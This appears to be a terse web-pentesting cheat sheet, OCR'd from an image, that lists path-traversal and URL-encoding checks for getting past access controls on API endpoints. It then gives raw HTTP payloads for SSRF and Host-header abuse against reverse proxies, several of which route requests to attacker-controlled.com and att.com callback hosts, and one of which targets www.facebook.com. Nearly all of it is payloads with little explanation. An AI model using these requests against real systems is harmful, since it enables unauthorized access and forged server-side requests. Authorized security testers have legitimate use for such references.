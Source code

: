 * Check if `/api/.%2f1` returns as `/api/1`
* Check if `/api/1%26` returns as `/api/1`
* Check if `/api/1%23` returns as `/api/1` or an error
* Check if `/api/../` returns result as `/`
* Check if `/api/..%2f` returns result as `/`
* Check if `/api/..%252f` returns result as `/`
* Check the endpoint in this way `/api/group/users` → `/api/group/users/..%2f..%2f..%2f`
* Check the endpoint in this way `/api/group/users` → `/api/group/users/../../../`
* Check behavior of `/file.ext/..%2f`
*   Some fuzzing characters:

    ```
    %23 (#)
    %3f (?)
    %26 (&)
    %2e (.)
    %2f (/)
    %40 (@)
    ```
* Vulnerable reverse proxies

```
GET /?qrt=xyz HTTP/1.1
host: attacker-controlled.com
```

* Find forbidden IP and change the host of IP lists:

```
GET /?qrt=xyz HTTP/1.1
host: IP:PORT
```

* Some tricks

```
GET @attacker-controlled.com/ HTTP/1.1
host: host.com
```

* Payload:

```
GET test.attacker-controlled.com:80/ HTTP/1.1
host: host.com
```

* All headers

```
GET /?a=a.att.com&a=a.att.com
Host: www.facebook.com
X-WAP-Profile: http://b.att.com
Referrer: http://c.att.com
X-Forwarded-For: d.att.com
True-Client-IP: e.att.c
X-Real-IP: f.att.com
connection: close
```
